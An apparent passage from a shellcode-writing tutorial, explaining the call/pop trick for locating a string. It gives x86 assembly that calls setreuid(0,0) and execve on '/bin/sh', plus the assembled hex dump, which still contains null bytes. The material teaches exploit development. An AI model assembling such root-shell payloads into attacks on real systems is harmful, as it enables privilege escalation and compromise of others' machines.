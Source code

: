 First the program jumps down to two, and then it calls back up to one, while pushing the return address (which is the address of the string) onto the stack. Then the program pops this address off the stack into EBX, and it can execute whatever code it desires.

The stripped-down shellcode using the call trick to get an address to the string looks something like this:

`shellcode.asm`

```
BITS 32

; setreuid(uid_t ruid, uid_t euid)

 mov eax, 70        ; put 70 into eax, since setreuid is syscall #70
 mov ebx, 0         ; put 0 into ebx, to set real uid to root
 mov ecx, 0         ; put 0 into ecx, to set effective uid to root
 int 0x80           ; Call the kernel to make the system call happen

 jmp short two      ; Jump down to the bottom for the call trick
one:
 pop ebx            ; pop the "return address" from the stack
                    ; to put the address of the string into ebx

; execve(const char *filename, char *const argv [], char *const envp[])
 mov eax, 0         ; put 0 into eax
 mov [ebx+7], al    ; put the 0 from eax where the X is in the string
                    ; ( 7 bytes offset from the beginning)
 mov [ebx+8], ebx   ; put the address of the string from ebx where the
                    ; AAAA is in the string ( 8 bytes offset)
 mov [ebx+12], eax  ; put a NULL address (4 bytes of 0) where the
                    ; BBBB is in the string ( 12 bytes offset)
 mov eax, 11        ; Now put 11 into eax, since execve is syscall #11
 lea ecx, [ebx+8]   ; Load the address of where the AAAA was in the string
                    ; into ecx
 lea edx, [ebx+12]  ; Load the address of where the BBBB was in the string
                    ; into edx
 int 0x80           ; Call the kernel to make the system call happen
two:
 call one           ; Use a call to get back to the top and get the
 db '/bin/shXAAAABBBB'       ; address of this string
```

Still isn’t usable as shellcode yet we need to removing `Null Bytes` let’s examine the code in a hex editor

```bash
$ nasm shellcode.asm
$ hexeditor shellcode

00000000 B8 46 00 00 00 BB 00 00 00 00 B9 00 00 00 00 CD .F..............
00000010 80 EB 1C 5B B8 00 00 00 00 88 43 07 89 5B 08 89 ...[......C..[..
00000020 43 0C B8 0B 00 00 00 8D 4B 08 8D 53 0C CD 80 E8 C.......K..S....
00000030 DF FF FF FF 2F 62 69 6E 2F 73 68 58 41 41 41 41 ..../bin/shXAAAA
00000040 42 42 42 42                                     BBBB
```
